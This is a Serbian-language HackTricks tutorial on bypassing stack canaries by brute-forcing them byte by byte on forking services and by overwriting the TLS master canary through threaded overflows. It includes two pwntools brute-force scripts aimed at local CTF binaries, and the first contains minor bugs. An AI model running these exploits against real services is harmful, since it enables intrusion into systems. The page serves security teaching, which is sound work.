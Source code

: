 # BF Forked & Threaded Stack Canaries

{{#include ../../../banners/hacktricks-training.md}}

**Ako se suočavate sa binarnim fajlom zaštićenim kanarom i PIE (Position Independent Executable), verovatno treba da pronađete način da ih zaobiđete.**

![](<../../../images/image (865).png>)

> [!NOTE]
> Imajte na umu da **`checksec`** možda neće otkriti da je binarni fajl zaštićen kanarom ako je statički kompajliran i nije u stanju da identifikuje funkciju.\
> Međutim, možete to ručno primetiti ako otkrijete da je vrednost sačuvana na steku na početku poziva funkcije i da se ova vrednost proverava pre izlaska.

## Brute force Canary

Najbolji način da se zaobiđe jednostavna kanara je ako je binarni fajl program **koji fork-uje dečije procese svaki put kada uspostavite novu vezu** s njim (mrežna usluga), jer svaki put kada se povežete s njim **biće korišćen isti kanar**.

Tada je najbolji način da se zaobiđe kanar jednostavno **brute-force-ovati ga karakter po karakter**, i možete da utvrdite da li je pogodjena bajt kanara bila tačna proverom da li je program pao ili nastavlja svoj redovni tok. U ovom primeru funkcija **brute-force-uje 8 bajtni kanar (x64)** i razlikuje između tačno pogodjenog bajta i lošeg bajta samo **proveravajući** da li je **odgovor** poslat nazad od strane servera (drugi način u **drugoj situaciji** mogao bi biti korišćenje **try/except**):

### Primer 1

Ovaj primer je implementiran za 64 bita, ali se lako može implementirati i za 32 bita.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Primer 2

Ovo je implementirano za 32 bita, ali se to može lako promeniti na 64 bita.\
Takođe, imajte na umu da je za ovaj primer **program očekivao prvo bajt koji označava veličinu ulaza** i payload.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Threads

Threads istog procesa će takođe **deliti isti canary token**, stoga će biti moguće **brute-forc**ovati canary ako binarni fajl pokreće novu nit svaki put kada se dogodi napad.

Štaviše, **overflow bafera u funkciji sa nitima** zaštićenoj canary-jem mogao bi se koristiti za **modifikaciju glavnog canary-ja koji je sačuvan u TLS-u**. To je zato što bi moglo biti moguće doći do memorijske pozicije gde je TLS sačuvan (i stoga, canary) putem **bof-a u steku** niti.\
Kao rezultat, mitigacija je beskorisna jer se provera koristi sa dva canary-ja koja su ista (iako modifikovana).\
Ovaj napad je prikazan u pisanju: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

Pogledajte takođe prezentaciju [https://www.slideshare.net/codeblue_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue_jp/master-canary-forging-by-yuki-koike-code-blue-2015) koja pominje da se obično **TLS** čuva putem **`mmap`** i kada se **stack** **niti** kreira, takođe se generiše putem `mmap`, što može omogućiti overflow kao što je prikazano u prethodnom pisanju.

## Other examples & references

- [https://guyinatuxedo.github.io/07-bof_static/dcquals16_feedme/index.html](https://guyinatuxedo.github.io/07-bof_static/dcquals16_feedme/index.html)
- 64 bita, bez PIE, nx, BF canary, upisati u neku memoriju ROP da pozove `execve` i skoči tamo.
